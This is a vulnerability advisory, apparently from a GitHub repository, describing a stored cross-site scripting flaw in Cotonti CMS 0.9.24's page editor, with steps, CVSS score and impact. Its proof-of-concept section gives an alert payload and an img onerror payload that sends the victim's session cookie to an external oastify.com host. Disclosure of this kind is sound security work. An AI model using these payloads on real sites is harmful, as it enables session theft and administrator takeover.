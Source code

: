 # Stored Cross-Site Scripting (XSS) in Edit Page function in Cotonti CMS 0.9.24

> https://github.com/Cotonti/Cotonti

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 7.6 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:L

# Description
A user that is in the moderator group or any group that can edit Pages, is able to inject malicious Javascript code to the Page and effectively steal the session cookie of any user, including any administrator's

# Execution steps
1. A Member User is logged in and can edit a Page. (Example: the Welcome! page in the News category)
2. A Member User is logged in and adds malicious code in the Page that has 'parser' switched to 'none'.
3. A Member User is logged in, views the Page but the malicious code is stored but not executed.
4. A Member User is logged in, edits the Page and switches 'parser' to 'html'.
5. An Admin user is logged in and the malicious code is silently executed.
6. The Attacker receives the cookie of the Admin that visits the Page.
7. The stolen cookie belongs to an administrator and the Attacker has full access to the CMS.

# Impact
A malicious user that is in the moderator group or any group that can edit Pages can escalate his privileges to any higher level group, including Administrators without being authorized. The malicious user can then create, edit and delete and content in the CMS, create new users with any privilege and disable users.

# Proof of Concept code
Add some random text in HTML <p> tags and then:

1. Pop-up the cookie with an alert:
```
<script>alert(document.cookie)</script>
```
==OR ==


2. Send the cookie to an Attacker controlled server:
```
<img src=x onerror=this.src="http://5ekinbe9n3ta9w10ozijz91ex53wrmfb.oastify.com?c="+document.cookie />
```
